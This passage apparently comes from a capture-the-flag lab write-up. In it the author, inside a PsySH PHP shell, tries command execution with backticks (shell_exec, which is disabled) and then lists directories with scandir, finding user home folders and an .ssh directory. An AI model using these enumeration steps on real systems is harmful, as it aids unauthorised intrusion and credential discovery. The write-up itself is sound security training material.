So we have some sort of shell called Psy Shell, that is based in PHP. Let's google around that.

I find out that we can run shell_exec() by surrounding the command with backticks: \`whoami\`

```
`whoami`
PHP Warning:  shell_exec() has been disabled for security reasons in phar://eval()'d code on line 1
 
```

hmm. So it's disabled.

I do some more googling and find some other commands to use:

```
scandir('/')
=> [
     ".",
     "..",
     ".DS_Store",
     "._.DS_Store",
     "bin",
     "boot",
     "dev",
     "etc",
     "home",
     "lib",
     "lost+found",
     "media",
     "mnt",
     "opt",
     "proc",
     "root",
     "run",
     "sbin",
     "srv",
     "swap",
     "sys",
     "tmp",
     "usr",
     "var",
   ]


scandir('/home')
=> [
     ".",
     "..",
     "berlin",
     "dali",
     "nairobi",
     "oslo",
     "professor",
   ]

scandir ('/home/professor')
=> [
     ".",
     "..",
     ".ash_history",
     ".ssh",
     "memcached.ini",
     "memcached.js",
     "node_modules",
   ]

```